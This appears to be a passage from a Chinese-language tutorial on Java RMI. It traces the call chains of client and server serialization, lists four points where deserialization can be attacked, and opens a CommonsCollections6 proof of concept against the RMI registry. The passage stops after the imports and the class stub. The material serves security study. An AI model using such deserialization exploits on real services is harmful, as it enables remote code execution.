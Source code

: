 之后，就是客户端拿到返回结果在就行反序列化了。

##### 我们大概的梳理一下

客户端调用链条

```
calculator.sayHello("lingx5") => Calculator_Stub.sayHello(String name) => 
java.rmi.server.RemoteObjectInvocationHandler#invoke => sun.rmi.server.UnicastRef#marshalValue 序列化
=> sun.rmi.transport.StreamRemoteCall#executeCall 发送请求
底层就是Transport负责socket网络通信
sun.rmi.transport.Transport.invoke(RemoteCall call)  =>  sun.rmi.transport.Transport.doCall(RemoteCall call)  =>  java.net.Socket.getOutputStream()  =>  java.io.ObjectOutputStream.writeObject() (序列化并发送数据)
```

服务端处理链条

```
TCP 连接接收 (TCPTransport$AcceptLoop)  =>  TCP 连接处理 (TCPTransport$ConnectionHandler)  =>  RMI 传输层消息处理 (Transport.handleMessages => Transport.serviceCall)  =>  远程调用执行 (StreamRemoteCall.executeCall)
=> sun.rmi.server.UnicastServerRef#oldDispatch => sun.rmi.server.UnicastServerRef#dispatch  =>  Calculator_Skel.dispatch 将参数反序列化 => CalculatorImpl.sayHello(String name)返回结果 => Calculator_Skel.dispatch 序列化结果 => StreamRemoteCall.executeCall 发送给客户端
```

客户端在反序列化输出结果

## 反序列化攻击

我们从源码分析已经知道了，主要的反序列化攻击点有

1. 服务端向注册中心发送绑定请求是，注册中心会反序列化远程对象，绑定到 bandings 表中
2. 客户端请求 Caculator_Stub 时，会把请求得到的 Stub 对象反序列化
3. 客户端向服务端发送参数时，服务端会就行反序列化拿到参数
4. 服务端把返回结果传给客户端时，客户端会反序列化结果

我们利用 CommonsCollections6 来编写 poc

### 客户端攻击注册中心（服务端）

因为在高版本的 jdk 中，会强制把注册中心和服务端绑定到一台机器上。只是利用的阶段会有所差异，攻击注册中心主要是在服务端绑定远程服务已经客户端查找远程服务时。主要利用的就是 sun.rmi.registry.RegistryImpl_Stub 和 sun.rmi.registry.RegistryImpl_Skele 类的通信逻辑

```java
package com.lingx5.RMI;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;

public class expRegisterServer {
    protected expRegisterServer() throws RemoteException {
    }

```